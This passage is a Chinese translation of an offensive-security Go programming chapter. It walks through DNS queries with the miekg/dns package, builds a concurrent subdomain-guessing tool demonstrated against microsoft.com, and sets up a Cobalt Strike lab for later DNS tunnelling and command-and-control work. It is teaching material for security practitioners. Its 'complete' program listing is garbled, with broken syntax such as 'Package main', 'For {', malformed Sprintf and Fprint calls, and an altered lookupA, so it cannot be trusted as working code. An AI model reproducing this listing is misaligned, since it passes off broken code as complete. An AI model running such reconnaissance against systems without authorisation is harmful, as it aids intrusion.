



## 第五章：利用 DNS


*域名系统* *(DNS)* 定位互联网域名并将其转换为 IP 地址。它在攻击者手中可以是一种有效的武器，因为组织通常允许该协议通过受限网络出口，而且它们经常未能充分监控其使用。只需一些知识，聪明的攻击者就能利用这些问题，在攻击链的几乎每个步骤中发挥作用，包括侦察、命令与控制（C2），甚至数据外泄。在本章中，你将学习如何使用 Go 和第三方包编写自己的工具，执行一些这些功能。

你将首先解析主机名和 IP 地址，揭示可以枚举的多种类型的 DNS 记录。然后，你将使用前面章节中介绍的模式，构建一个高并发的子域名猜测工具。最后，你将学习如何编写自己的 DNS 服务器和代理，并使用 DNS 隧道技术在受限网络中建立 C2 通道！

### 编写 DNS 客户端

在探索更复杂的程序之前，让我们先了解一些客户端操作中可用的选项。Go 的内置 `net` 包提供了出色的功能，支持大多数（如果不是全部）记录类型。使用内置包的优点是它简洁明了的 API。例如，`LookupAddr(addr string)` 返回给定 IP 地址的主机名列表。使用 Go 内置包的缺点是，你无法指定目标服务器；相反，包将使用你操作系统上配置的解析器。另一个缺点是你无法对结果进行深度检查。

为了绕过这个问题，你将使用一个由 Miek Gieben 编写的惊人的第三方包——*Go DNS 包*。这是我们首选的 DNS 包，因为它高度模块化，编写规范，且经过充分测试。使用以下命令安装该包：

```
$ go get github.com/miekg/dns
```

一旦安装了该包，你就可以跟随接下来的代码示例。你将首先执行 A 记录查询，以解析主机名的 IP 地址。

#### 获取 A 记录

让我们首先对一个*完全限定域名 (FQDN)* 进行查询，它指定了主机在 DNS 层级中的确切位置。然后，我们将尝试使用一种称为*A 记录*的 DNS 记录，将该 FQDN 解析为 IP 地址。我们使用 A 记录将域名指向 IP 地址。列表 5-1 显示了一个查询示例。（所有位于根位置的代码清单都存在于提供的 GitHub 仓库 *[`github.com/blackhat-go/bhg/`](https://github.com/blackhat-go/bhg/)* 中。）

```
package main

import (
    "fmt"

    "github.com/miekg/dns"
)

func main() {
 ❶ var msg dns.Msg
 ❷ fqdn := dns.Fqdn("stacktitan.com")
 ❸ msg.SetQuestion(fqdn, dns.TypeA)
 ❹ dns.Exchange(&msg, "8.8.8.8:53")
}
```

*列表 5-1: 获取 A 记录 (*[/ch-5/get_a/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/get_a/main.go)*)*

首先创建一个新的`Msg` ❶，然后调用`fqdn(string)`将域名转换为可以与 DNS 服务器交换的 FQDN ❷。接下来，使用`TypeA`值通过调用`SetQuestion(string, uint16)`来修改`Msg`的内部状态，以表示你想查找 A 记录 ❸。（这是一个在包中定义的`const`值。你可以在包文档中查看其他支持的值。）最后，调用`Exchange(*Msg, string)` ❹，将消息发送到提供的服务器地址，在这个例子中是 Google 运营的 DNS 服务器。

如你所见，这段代码并不是很有用。虽然你正在向 DNS 服务器发送查询并请求 A 记录，但你没有处理响应；你没有对结果做任何有意义的操作。在用 Go 编程进行这项操作之前，我们先回顾一下 DNS 响应的样子，以便更深入地理解协议及不同的查询类型。

在执行 Listing 5-1 中的程序之前，运行一个数据包分析器，如 Wireshark 或 tcpdump，以查看流量。以下是如何在 Linux 主机上使用 tcpdump 的示例：

```
$ sudo tcpdump -i eth0 -n udp port 53
```

在一个独立的终端窗口中，像这样编译并执行程序：

```
$ go run main.go
```

一旦你执行了代码，你应该在数据包捕获的输出中看到连接到 8.8.8.8 的 UDP 53 连接。你还应该看到 DNS 协议的详细信息，如下所示：

```
$ sudo tcpdump -i eth0 -n udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens33, link-type EN10MB (Ethernet), capture size 262144 bytes
23:55:16.523741 IP 192.168.7.51.53307 > 8.8.8.8.53:❶ 25147+ A?❷ stacktitan.com. (32)
23:55:16.650905 IP 8.8.8.8.53 > 192.168.7.51.53307: 25147 1/0/0 A 104.131.56.170 (48) ❸
```

数据包捕获输出产生了几行需要进一步解释的内容。首先，从 192.168.7.51 通过 UDP 53 ❶向 8.8.8.8 发送查询请求，要求获取 DNS A 记录 ❷。响应 ❸由 Google 的 8.8.8.8 DNS 服务器返回，包含了解析后的 IP 地址 104.131.56.170。

使用 tcpdump 等数据包分析器，你能够将域名`stacktitan.com`解析为 IP 地址。现在让我们看看如何使用 Go 提取这些信息。

#### 处理来自 Msg 结构体的答案

从`Exchange(*Msg, string)`返回的值是`(*Msg, error)`。返回`error`类型是有道理的，并且在 Go 的惯用法中很常见，但为什么返回`*Msg`呢？如果那就是你传入的对象，为什么要返回它呢？为了澄清这一点，请看看源代码中是如何定义`struct`的：

```
type Msg struct {
    MsgHdr
    Compress    bool       `json:"-"` // If true, the message will be compressed...
 ❶ Question    []Question            // Holds the RR(s) of the question section.
 ❷ Answer      []RR                  // Holds the RR(s) of the answer section.
    Ns          []RR                  // Holds the RR(s) of the authority section.
    Extra       []RR                  // Holds the RR(s) of the additional section.
}
```

如你所见，`Msg` `struct`同时包含了问题和答案。这使你能够将所有的 DNS 问题及其答案整合到一个统一的结构中。`Msg`类型有各种方法，使得处理数据更为简便。例如，`Question`切片 ❶通过便捷方法`SetQuestion()`进行修改。你也可以通过使用`append()`直接修改这个切片，达到相同的效果。`Answer`切片 ❷保存查询的响应，类型为`RR`。Listing 5-2 展示了如何处理这些答案。

```
package main

import (
    "fmt"

    "github.com/miekg/dns"
)

func main() {
    var msg dns.Msg
    fqdn := dns.Fqdn("stacktitan.com")
    msg.SetQuestion(fqdn, dns.TypeA)
 ❶ in, err := dns.Exchange(&msg, "8.8.8.8:53")
    if err != nil {
        panic(err)
    }
 ❷ if len(in.Answer) < 1 {
        fmt.Println("No records")
        return
    }
    for _, answer := range in.Answer {
        if a❸, ok:= answer.(*dns.A)❹; ok {
         ❺ fmt.Println(a.A)
        }
    }
}
```

*Listing 5-2: 处理 DNS 答案 (*[/ch-5/get_all_a/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/get_all_a/main.go)*)*

我们的示例从存储 `Exchange` 返回的值开始，检查是否有错误，如果有，则调用 `panic()` 停止程序 ❶。`panic()` 函数让您快速查看堆栈跟踪并确定错误发生的位置。接下来，验证 `Answer` 切片的长度是否至少为 1 ❷，如果不是，则表示没有记录并立即返回——毕竟，域名无法解析是一个合法的情况。

`RR` 类型是一个接口，只有两个已定义的方法，并且这两个方法都无法访问存储在答案中的 IP 地址。要访问这些 IP 地址，您需要执行类型断言，将数据实例化为您想要的类型。

首先，遍历所有答案。接下来，对答案执行类型断言，确保您正在处理的是 `*dns.A` 类型 ❸。执行此操作时，您可以接收两个值：作为断言类型的数据和一个 `bool`，表示断言是否成功 ❹。在检查断言是否成功后，打印存储在 `a.A` 中的 IP 地址 ❺。尽管类型是 `net.IP`，但它实现了 `String()` 方法，因此您可以轻松打印它。

花时间修改这段代码，修改 DNS 查询和交换，以便搜索其他记录。类型断言可能不太熟悉，但它与其他语言中的类型转换类似。

#### 枚举子域名

现在您已经知道如何将 Go 用作 DNS 客户端，您可以创建有用的工具。在本节中，您将创建一个子域名猜测工具。猜测目标的子域名和其他 DNS 记录是侦察过程中的基础步骤，因为您知道的子域名越多，您可以尝试攻击的方式就越多。您将为我们的工具提供一个候选字典文件，用于猜测子域名。

使用 DNS 时，您可以发送请求的速度取决于操作系统处理数据包的能力。虽然语言和运行时不会成为瓶颈，但目标服务器可能会。控制程序的并发性在这里将非常重要，就像在前面的章节中一样。

首先，在您的 `GOPATH` 中创建一个名为 *subdomain_guesser* 的新目录，并创建一个名为 *main.go* 的新文件。接下来，当您开始编写新工具时，必须决定程序将接受哪些参数。这个子域名猜测程序将接受多个参数，包括目标域名、包含子域名的猜测文件名、要使用的目标 DNS 服务器以及要启动的工作线程数。Go 提供了一个名为 `flag` 的有用包，用于解析命令行选项，您将使用它来处理命令行参数。尽管我们在所有代码示例中并不使用 `flag` 包，但在此示例中我们选择使用它，以演示更强大、优雅的参数解析。示例 5-3 显示了我们的参数解析代码。

```
package main

import (
    "flag"
)

func main() {
    var (
        flDomain      = flag.String("domain", "", "The domain to perform guessing against.") ❶
        flWordlist    = flag.String("wordlist", "", "The wordlist to use for guessing.")
        flWorkerCount = flag.Int("c", 100, "The amount of workers to use.") ❷
        flServerAddr  = flag.String("server", "8.8.8.8:53", "The DNS server to use.")
    )
    flag.Parse() ❸
}
```

*清单 5-3：构建一个子域名猜测器 (*[/ch-5/subdomain_guesser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/subdomain_guesser/main.go)*)*

首先，声明`flDomain`变量的代码行❶接受一个`String`类型的参数，并声明一个空字符串作为默认值，用于解析`domain`选项。接下来的相关代码行是`flWorkerCount`变量声明❷。你需要提供一个`Integer`类型的值作为`c`命令行选项。在这种情况下，将其设置为 100 个默认工作者。但是这个值可能过于保守，所以在测试时可以增加该值。最后，调用`flag.Parse()`❸会通过用户提供的输入填充你的变量。

**注意**

*你可能已经注意到，示例违反了 Unix 法则，因为它定义了不是真正可选的参数。请随意使用 os.Args。我们只是发现让 flag 包做所有工作更简单、更快捷。*

如果你尝试构建这个程序，应该会收到一个关于未使用变量的错误。请在调用`flag.Parse()`之后立即添加以下代码。这段代码会将变量打印到 stdout，同时显示代码，确保用户提供了`-domain`和`-wordlist`：

```
if *flDomain == "" || *flWordlist == "" {
    fmt.Println("-domain and -wordlist are required")
    os.Exit(1)
}
fmt.Println(*flWorkerCount, *flServerAddr)
```

为了让你的工具报告哪些名称是可解析的，并显示它们各自的 IP 地址，你将创建一个`struct`类型来存储这些信息。将其定义在`main()`函数之上：

```
type result struct {
    IPAddress string
    Hostname string
}
```

你将查询两个主要的记录类型——A 记录和 CNAME 记录——来为这个工具提供功能。你将在不同的函数中执行每个查询。最好让你的函数尽可能小，并确保每个函数执行一个操作。这种开发风格可以让你在未来编写更小的测试。

##### 查询 A 和 CNAME 记录

你将创建两个函数来执行查询：一个用于 A 记录，另一个用于 CNAME 记录。两个函数都接受 FQDN 作为第一个参数，DNS 服务器地址作为第二个参数。每个函数都应该返回一个字符串切片和一个错误。将这些函数添加到你在清单 5-3 中开始定义的代码中。这些函数应该在`main()`外部定义。

```
func lookupA(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var ips []string
    m.SetQuestion(dns.Fqdn(fqdn), dns.TypeA)
    in, err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return ips, err
    }
    if len(in.Answer) < 1 {
        return ips, errors.New("no answer")
    }
    for _, answer := range in.Answer {
        if a, ok := answer.(*dns.A); ok {
            ips = append(ips, a.A.String())
        }
    }
    return ips, nil
}

func lookupCNAME(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var fqdns []string
    m.SetQuestion(dns.Fqdn(fqdn), dns.TypeCNAME)
    in, err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return fqdns, err
    }
    if len(in.Answer) < 1 {
        return fqdns, errors.New("no answer")
    }
    for _, answer := range in.Answer {
        if c, ok := answer.(*dns.CNAME); ok {
            fqdns = append(fqdns, c.Target)
        }
    }
    return fqdns, nil
}
```

这段代码应该看起来很熟悉，因为它几乎和你在本章第一节中写的代码完全相同。第一个函数`lookupA`返回一个 IP 地址列表，`lookupCNAME`返回一个主机名列表。

*CNAME*（规范名称）记录将一个 FQDN 指向另一个 FQDN，这个 FQDN 作为第一个的别名。例如，假设 *example.com* 组织的所有者希望通过使用 WordPress 托管服务来托管一个 WordPress 网站。该服务可能有数百个 IP 地址来平衡所有用户的网站流量，因此提供单个站点的 IP 地址将不可行。WordPress 托管服务可以提供一个规范名称（CNAME），*example.com* 的所有者可以引用该 CNAME。因此，*www.example.com* 可能有一个指向 *[someserver.hostingcompany.org](http://someserver.hostingcompany.org)* 的 CNAME，而该 CNAME 进一步指向一个 IP 地址。这使得 *example.com* 的所有者能够将他们的网站托管在一个没有 IP 地址信息的服务器上。

通常这意味着你需要跟踪 CNAMES 链接，最终到达有效的 A 记录。我们之所以称之为*链条*，是因为你可能会有一个无尽的 CNAMES 链条。将以下代码中的函数放到 `main()` 外部，看看如何使用 CNAMES 链条来追踪有效的 A 记录：

```
func lookup(fqdn, serverAddr string) []result {
 ❶ var results []result
 ❷ var cfqdn = fqdn // Don't modify the original.
    for {
     ❸ cnames, err := lookupCNAME(cfqdn, serverAddr)
     ❹ if err == nil && len(cnames) > 0 {
         ❺ cfqdn = cnames[0]
         ❻ continue // We have to process the next CNAME.
        }
     ❼ ips, err := lookupA(cfqdn, serverAddr)
        if err != nil {
            break // There are no A records for this hostname.
        }
     ❽ for _, ip := range ips {
            results = append(results, result{IPAddress: ip, Hostname: fqdn})
        }
     ❾ break // We have processed all the results.
    }
    return results
}
```

首先，定义一个切片来存储结果 ❶。接下来，创建一个复制的 FQDN（完全限定域名），作为第一个参数传入 ❷，这样不仅不会丢失被猜测的原始 FQDN，而且还可以在第一次查询时使用它。在开始无限循环后，尝试解析 FQDN 的 CNAME 记录 ❸。如果没有错误发生，并且至少返回了一个 CNAME ❹，将 `cfqdn` 设置为返回的 CNAME ❺，并使用 `continue` 跳回循环的开始 ❻。这个过程让你能够跟踪 CNAMES 链条，直到发生失败。如果发生失败，说明你已到达链条的末尾，那么你可以开始查找 A 记录 ❼；但如果发生错误，说明记录查询出了问题，那么你就提前退出循环。如果有有效的 A 记录，将每个返回的 IP 地址追加到 `results` 切片中 ❽，并跳出循环 ❾。最后，将 `results` 返回给调用者。

我们与名称解析相关的逻辑看起来很合理。然而，你没有考虑到性能。让我们使这个示例更适合 goroutine，这样你就可以添加并发功能。

##### 传递给工作函数

你将创建一个 goroutine 池，通过传递工作到一个*工作函数*来执行一个工作单元。你将使用通道来协调工作分配和结果收集。回想一下你在第二章中做的类似工作，当时你构建了一个并发的端口扫描器。

继续扩展清单 5-3 中的代码。首先，创建`worker()`函数，并将其放置在`main()`外部。这个函数接受三个通道参数：一个用于工作线程发出关闭信号的通道，一个接收工作的域名通道，以及一个用于发送结果的通道。该函数还需要一个最终的字符串参数，用于指定要使用的 DNS 服务器。以下代码展示了我们的`worker()`函数示例：

```
type empty struct{} ❶

func worker(tracker chan empty, fqdns chan string, gather chan []result, serverAddr string) {
    for fqdn := range fqdns { ❷
        results := lookup(fqdn, serverAddr)
        if len(results) > 0 {
            gather <- results ❸
        }
    }
    var e empty
    tracker <- e ❹
}
```

在介绍`worker()`函数之前，首先定义类型`empty`，用于跟踪工作线程何时完成❶。这是一个没有字段的`struct`；你使用空的`struct`是因为它的大小为 0 字节，使用时几乎不会产生任何影响或开销。然后，在`worker()`函数中，遍历域名通道❷，该通道用于传递 FQDN（完全限定域名）。在从`lookup()`函数获取结果并确保至少有一个结果后，将结果发送到`gather`通道❸，该通道将在`main()`中汇总结果。当工作循环因通道关闭而退出时，通过`tracker`通道❹发送一个`empty`结构体，向调用者发出所有工作已完成的信号。在 tracker 通道上发送空的`struct`是一个重要的最后步骤。如果你不这么做，就会产生竞态条件，因为调用者可能在`gather`通道接收到结果之前就退出了。

由于此时所有前置结构已经设置好，让我们将注意力重新集中到`main()`中，以完成我们在清单 5-3 中开始的程序。定义一些变量，用于存储结果和传递给`worker()`的通道。然后将以下代码添加到`main()`中：

```
var results []result
fqdns := make(chan string, *flWorkerCount)
gather := make(chan []result)
tracker := make(chan empty)
```

通过使用用户提供的工作线程数量创建一个带缓冲的`fqdns`通道。这样可以让工作线程稍微更快启动，因为通道在阻塞发送者之前可以容纳超过一个消息。

##### 使用 bufio 创建一个 Scanner

接下来，打开用户提供的文件以消耗作为单词列表。文件打开后，使用`bufio`包创建一个新的`scanner`。扫描器允许你一次读取文件的一行。将以下代码添加到`main()`中：

```
fh, err := os.Open(*flWordlist)
if err != nil {
    panic(err)
}
defer fh.Close()
scanner := bufio.NewScanner(fh)
```

如果返回的错误不为`nil`，则在此使用内置函数`panic()`。当你编写他人将使用的包或程序时，应该考虑以更简洁的格式呈现此信息。

你将使用新的`scanner`从提供的单词列表中抓取一行文本，并通过将该文本与用户提供的域名组合，创建一个 FQDN。你会将结果发送到`fqdns`通道。但是你必须先启动工作者。这个顺序很重要。如果你在没有启动工作者的情况下将工作发送到`fqdns`通道，缓冲通道最终会被填满，生产者将会阻塞。你需要将以下代码添加到`main()`函数中。其目的是启动工作者协程，读取输入文件，并将工作发送到`fqdns`通道。

```
❶ for i := 0; i < *flWorkerCount; i++ {
       go worker(tracker, fqdns, gather, *flServerAddr)
   }

❷ for scanner.Scan() {
       fqdns <- fmt.Sprintf("%s.%s", scanner.Text()❸, *flDomain)
   }
```

通过这种模式创建工作者❶应该类似于你在构建并发端口扫描器时所做的：你使用了`for`循环，直到达到用户提供的数量。为了获取文件中的每一行，在循环❷中使用`scanner.Scan()`。当文件中没有更多行可读取时，循环结束。为了获取扫描行的字符串表示，可以使用`scanner.Text()`❸。

工作已经启动！花点时间享受成功的喜悦。在阅读下一个代码之前，思考一下你在程序中所处的位置，以及你已经完成了哪些内容。尝试完成这个程序，然后继续阅读下一节，我们会引导你完成剩下的部分。

##### 聚合和展示结果

最后，首先启动一个匿名的 goroutine 来从工作者那里收集结果。将以下代码添加到`main()`中：

```
go func() {
    for r := range gather {
     ❶ results = append(results, r...❷)
    }
    var e empty
 ❸ tracker <- e
}()
```

通过循环遍历`gather`通道，你将接收到的结果附加到`results`切片中❶。由于你将一个切片附加到另一个切片，必须使用`...`语法❷。在关闭`gather`通道并且循环结束后，像之前一样向`tracker`通道发送一个空的`struct`❸。这样做是为了防止竞态条件，避免在`append()`操作未完成时，结果就被展示给用户。

剩下的就是关闭通道并展示结果。将以下代码添加到`main()`函数的底部，以便关闭通道并将结果展示给用户：

```
❶ close(fqdns)
❷ for i := 0; i < *flWorkerCount; i++ {
       <-tracker
   }
❸ close(gather)
❹ <-tracker
```

第一个可以关闭的通道是`fqdns`❶，因为你已经将所有的工作都发送到这个通道。接下来，你需要从`tracker`通道接收每个工作者一次❷，以便工作者能发出完全退出的信号。在所有工作者都完成之后，你可以关闭`gather`通道❸，因为没有更多的结果需要接收。最后，再次从`tracker`通道接收一次，以允许聚合协程完全结束❹。

结果尚未呈现给用户。让我们来修复这个问题。如果你愿意，可以轻松地遍历`results`切片，并使用`fmt.Printf()`打印`Hostname`和`IPAddress`字段。我们更倾向于使用 Go 的几个内置优秀包之一来展示数据；`tabwriter`是我们最喜欢的之一。它允许你将数据以整齐的列形式展示，每列之间通过制表符分隔。将以下代码添加到`main()`的末尾，使用`tabwriter`打印你的结果：

```
w := tabwriter.NewWriter(os.Stdout, 0, 8, 4, ' ', 0)
for _, r := range results {
    fmt.Fprintf(w, "%s\t%s\n", r.Hostname, r.IPAddress)
}
w.Flush()
```

代码清单 5-4 展示了完整的程序。

```
Package main

import (
    "bufio"
    "errors"
    "flag"
    "fmt"
    "os"
    "text/tabwriter"

    "github.com/miekg/dns"
)

func lookupA(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var ips []string
    m.SetQuestion(dns.Fqdn(fqdn), dns.TypeA)
    in, err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return ips, err
    }
    if len(in.Answer) < 1 {
        return ips, errors.New("no answer")
    }
    for _, answer := range in.Answer {
        if a, ok := answer.(*dns.A); ok {
            ips = append(ips, a.A.String())
            return ips, nil
        }
    }
    return ips, nil
}

func lookupCNAME(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var fqdns []string
    m.SetQuestion(dns.Fqdn(fqdn), dns.TypeCNAME)
    in, err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return fqdns, err
    }
    if len(in.Answer) < 1 {
 return fqdns, errors.New("no answer")
    }
    for _, answer := range in.Answer {
        if c, ok := answer.(*dns.CNAME); ok {
            fqdns = append(fqdns, c.Target)
        }
    }
    return fqdns, nil
}

func lookup(fqdn, serverAddr string) []result {
    var results []result
    var cfqdn = fqdn // Don't modify the original.
    For {
        cnames, err := lookupCNAME(cfqdn, serverAddr)
        if err == nil && len(cnames) > 0 {
            cfqdn = cnames[0]
            continue // We have to process the next CNAME.
        }
        ips, err := lookupA(cfqdn, serverAddr)
        if err != nil {
            break // There are no A records for this hostname.
        }
        for _, ip := range ips {
            results = append(results, result{IPAddress: ip, Hostname: fqdn})
        }
        break // We have processed all the results.
    }
    return results
}

func worker(tracker chan empty, fqdns chan string, gather chan []result, serverAddr string) {
    for fqdn := range fqdns {
        results := lookup(fqdn, serverAddr)
        if len(results) > 0 {
            gather <- results
        }
    }
    var e empty
    tracker <- e
}

type empty struct{}

type result struct {
    IPAddress string
    Hostname string
}

func main() {
    var (
        flDomain      = flag.String("domain", "", "The domain to perform guessing against.")
        flWordlist    = flag.String("wordlist", "", "The wordlist to use for guessing.")
        flWorkerCount = flag.Int("c", 100, "The amount of workers to use.")
        flServerAddr  = flag.String("server", "8.8.8.8:53", "The DNS server to use.")
 )
    flag.Parse()

    if *flDomain == "" || *flWordlist == "" {
        fmt.Println("-domain and -wordlist are required")
        os.Exit(1)
    }

    var results []result

    fqdns := make(chan string, *flWorkerCount)
    gather := make(chan []result)
    tracker := make(chan empty)

    fh, err := os.Open(*flWordlist)
    if err != nil {
        panic(err)
    }
    defer fh.Close()
    scanner := bufio.NewScanner(fh)

    for I := 0; i < *flWorkerCount; i++ {
        go worker(tracker, fqdns, gather, *flServerAddr)
    }

    for scanner.Scan() {
        fqdns <- fmt.Sprintf"%s.%", scanner.Text(), *flDomain)
    }
    // Note: We could check scanner.Err() here.

    go func() {
        for r := range gather {
            results = append(results, I.)
        }
        var e empty
        tracker <- e
    }()

    close(fqdns)
    for i := 0; i < *flWorkerCount; i++ {
        <-tracker
    }
    close(gather)
    <-tracker

    w := tabwriter.NewWriter(os.Stdout, 0, 8' ', ' ', 0)
    for _, r := range results {
        fmt.Fprint"(w, "%s\"%s\n", r.Hostname, r.IPAddress)
    }
    w.Flush()
}
```

*代码清单 5-4：完整的子域名猜测程序 (*[/ch-5/subdomain_guesser/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/subdomain_guesser/main.go)*)*

你的子域名猜测程序已经完成！现在你应该能够构建并执行你崭新的子域名猜测工具。尝试使用开源代码库中的词典文件或字典文件（你可以通过 Google 搜索找到很多）。试试修改工作线程数量；你可能会发现，如果你速度太快，结果可能会有所不同。以下是作者系统使用 100 个工作线程时的运行结果：

```
$ wc -l namelist.txt
1909 namelist.txt
$ time ./subdomain_guesser -domain microsoft.com -wordlist namelist.txt -c 1000
ajax.microsoft.com            72.21.81.200
buy.microsoft.com             157.56.65.82
news.microsoft.com            192.230.67.121
applications.microsoft.com    168.62.185.179
sc.microsoft.com              157.55.99.181
open.microsoft.com            23.99.65.65
ra.microsoft.com              131.107.98.31
ris.microsoft.com             213.199.139.250
smtp.microsoft.com            205.248.106.64
wallet.microsoft.com          40.86.87.229
jp.microsoft.com              134.170.185.46
ftp.microsoft.com             134.170.188.232
develop.microsoft.com         104.43.195.251
./subdomain_guesser -domain microsoft.com -wordlist namelist.txt -c 1000 0.23s user 0.67s system 22% cpu 4.040 total
```

你会看到输出显示了几个 FQDN 和它们的 IP 地址。我们能够根据提供的词典文件猜测每个结果的子域名值。

现在你已经构建了自己的子域名猜测工具，并学会了如何解析主机名和 IP 地址以枚举不同的 DNS 记录，你已经准备好编写自己的 DNS 服务器和代理了。

### 编写 DNS 服务器

正如尤达所说：“总有两者，非多，非少。”当然，他是在讲客户端与服务器的关系，而既然你已经是客户端的高手，现在是时候成为服务器的高手了。在本节中，你将使用 Go 的 DNS 包来编写一个基础的服务器和代理。你可以将 DNS 服务器用于几种恶意活动，包括但不限于通过伪造无线接入点进行隧道穿越限制网络和进行欺骗攻击。

在开始之前，你需要搭建一个实验室环境。这个实验室环境可以让你模拟现实场景，而无需拥有合法的域名或使用昂贵的基础设施。如果你愿意注册域名并使用真实服务器，也可以随时这样做。

#### 实验室设置与服务器介绍

你的实验室由两台虚拟机（VM）组成：一台微软 Windows 虚拟机作为客户端，一台 Ubuntu 虚拟机作为服务器。这个示例使用 VMWare Workstation 以及桥接网络模式来配置每台机器；你也可以使用私有虚拟网络，但确保两台机器在同一网络下。你的服务器将运行两个从官方 Java Docker 镜像构建的 Cobalt Strike Docker 实例（Java 是 Cobalt Strike 的先决条件）。图 5-1 展示了你的实验室设置。



*图 5-1：创建 DNS 服务器的实验室设置*

首先，创建 Ubuntu 虚拟机。为此，我们将使用版本 16.04.1 LTS。无需做特别配置，但你应该为虚拟机配置至少 4 GB 内存和两个 CPU。如果你已有虚拟机或主机，也可以使用。操作系统安装完成后，你需要安装 Go 开发环境（见第一章）。

一旦你创建了 Ubuntu 虚拟机，安装一个名为 *Docker* 的虚拟化容器工具。在本章的代理部分，你将使用 Docker 来运行多个 Cobalt Strike 实例。要安装 Docker，请在终端窗口中运行以下命令：

```
$ sudo apt-get install apt-transport-https ca-certificates
sudo apt-key adv \
               --keyserver hkp://ha.pool.sks-keyservers.net:80 \
               --recv-keys 58118E89F3A912897C070ADBF76221572C52609D
$ echo "deb https://apt.dockerproject.org/repo ubuntu-xenial main" | sudo tee
/etc/apt/sources.list.d/docker.list
$ sudo apt-get update
$ sudo apt-get install linux-image-extra-$(uname -r) linux-image-extra-virtual
$ sudo apt-get install docker-engine
$ sudo service docker start
$ sudo usermod -aG docker USERNAME
```

安装完成后，退出并重新登录到系统。接下来，通过运行以下命令验证 Docker 是否已安装：

```
$ docker version
Client:
 Version:      1.13.1
 API version:  1.26
 Go version:   go1.7.5
 Git commit:   092cba3
 Built:        Wed Feb  5 06:50:14 2020
 OS/Arch:      linux/amd64
```

安装完 Docker 后，使用以下命令下载 Java 镜像。该命令会拉取基础的 Docker Java 镜像，但不会创建任何容器。你这么做是为了为即将进行的 Cobalt Strike 构建做准备。

```
$ docker pull java
```

最后，你需要确保 `dnsmasq` 没有在运行，因为它监听的是 53 端口。否则，你自己的 DNS 服务器将无法运行，因为它们需要使用相同的端口。如果它正在运行，可以通过进程 ID 杀掉它：

```
$ ps -ef | grep dnsmasq
nobody    3386  2020  0 12:08
$ sudo kill 3386
```

现在创建一个 Windows 虚拟机。同样，如果已有机器可以使用，则不需要特别设置；只需最小配置即可。系统正常运行后，将 DNS 服务器设置为 Ubuntu 系统的 IP 地址。

为了测试你的实验室设置并让你了解如何编写 DNS 服务器，首先编写一个返回 A 记录的基本服务器。在 Ubuntu 系统的`GOPATH`中，创建一个名为*github.com/blackhat-go/bhg/ch-5/a_server*的新目录，并创建一个文件来保存你的*main.go*代码。清单 5-5 展示了创建一个简单 DNS 服务器的完整代码。

```
package main

import (
    "log"
    "net"

